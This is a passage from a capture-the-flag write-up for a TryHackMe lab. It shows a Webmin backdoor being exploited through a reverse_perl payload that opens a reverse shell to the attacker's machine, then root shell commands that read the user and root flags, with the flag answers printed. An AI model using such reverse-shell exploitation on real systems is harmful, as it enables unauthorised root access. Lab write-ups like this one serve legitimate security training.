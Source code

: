 ~~~
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.9.0.54:4444 -> 10.10.86.158:60898) at 2020-07-12 09:43:33 +0200
~~~

Now that we have a session, let's get the flags:

~~~
SHELL=/bin/bash script -q /dev/null
root@source:/usr/share/webmin/# cd /home
cd /home
root@source:/home# ls
ls
dark
root@source:/home# cd dark
cd dark
root@source:/home/dark# ls
ls
user.txt  webmin_1.890_all.deb
root@source:/home/dark# cat user.txt
cat user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
~~~

Answer: `THM{SUPPLY_CHAIN_COMPROMISE}`

## #4.5 - How about the root flag?

*Hint: This can be found in /root/root.txt*

~~~
root@source:/home/dark# cat /root/root.txt
cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
root@source:/home/dark# 
~~~

Answer: `THM{UPDATE_YOUR_INSTALL}`

# [Task 5] Going Further

Want to get even more out of AttackerKB? Check out the AKB Explorer by [Horshark](https://tryhackme.com/p/Horshark)! Written in python, AKB Explorer provides similar functionality to Searchsploit, expanded to encompass the features of AKB. Using this tool, you can search by name, CVE, and username for posts! Check it out here: [Link](https://github.com/horshark/akb-explorer).
